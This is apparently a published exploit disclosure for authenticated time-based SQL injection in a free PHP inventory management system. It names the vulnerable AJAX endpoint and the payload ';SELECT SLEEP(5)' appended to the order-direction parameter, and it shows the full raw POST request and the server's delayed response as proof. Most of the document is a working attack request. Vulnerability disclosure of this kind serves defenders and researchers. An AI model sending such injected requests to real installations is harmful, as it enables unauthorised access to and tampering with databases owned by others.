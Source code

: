 ﻿
**Exploit Title:** Free and Open Source inventory management system php - Authenticated SQL Injection
**Date**: 4/08/2023
**Exploit Author:** y3thu
**Vendor Homepage:** https://www.sourcecodester.com/users/mayurik
**Software Link:** https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
**Attack Vector:** WEB, Network
**Testeted on:** Windows 10  using XAMPP

**POST Authenticated SQL Injection**
**POC**
**payload:** `;SELECT SLEEP(5)`


    POST /ample/app/ajax/catagory_data.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 983
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/ample/index.php?page=category
    Cookie: PHPSESSID=g11ukg4bi8dvr9q9uqvsslpm3t
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    
    draw=1&columns%5B0%5D%5Bdata%5D=id&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=true&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=name&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=true&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=description&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=true&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=action&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=true&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&order%5B0%5D%5Bcolumn%5D=0&order%5B0%5D%5Bdir%5D=asc;SELECT SLEEP(5)&start=0&length=10&search%5Bvalue%5D=&search%5Bregex%5D=false

**Response after 5 seconds (the sleep has been executed)**

     
    HTTP/1.1 200 OK
    Date: Fri, 04 Aug 2023 06:49:50 GMT
    Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
    X-Powered-By: PHP/7.4.30
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 2174
    Connection: close
    Content-Type: text/html; charset=UTF-8

